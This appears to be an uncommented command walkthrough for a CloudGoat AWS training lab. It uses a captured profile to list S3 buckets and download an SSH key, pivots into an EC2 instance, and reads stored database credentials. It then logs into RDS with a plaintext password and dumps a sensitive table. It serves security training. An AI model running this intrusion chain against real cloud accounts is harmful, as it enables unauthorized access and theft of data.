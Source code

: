 `aws configure --profile mcduck`

`aws s3 ls --profile mcduck`

`aws s3 ls s3://<bucket> --recursive --profile mcduck`

`aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat . --profile mcduck`

`aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat.pub . --profile mcduck`

`aws ec2 describe-instances --profile mcduck --region us-east-1`

`chmod 400 cloudgoat`

`ssh -i cloudgoat ubuntu@<ec2_public_ip>

`sudo apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket> --recursive`

`aws s3 cp s3://<bucket>/db.txt .`

`cat db.txt`

`aws rds describe-db-instances --region us-east-1`

`psql postgresql://cgadmin:Purplepwny2029@<rds-instance>:5432/cloudgoat`

`\dt`

`select * from sensitive_information;`
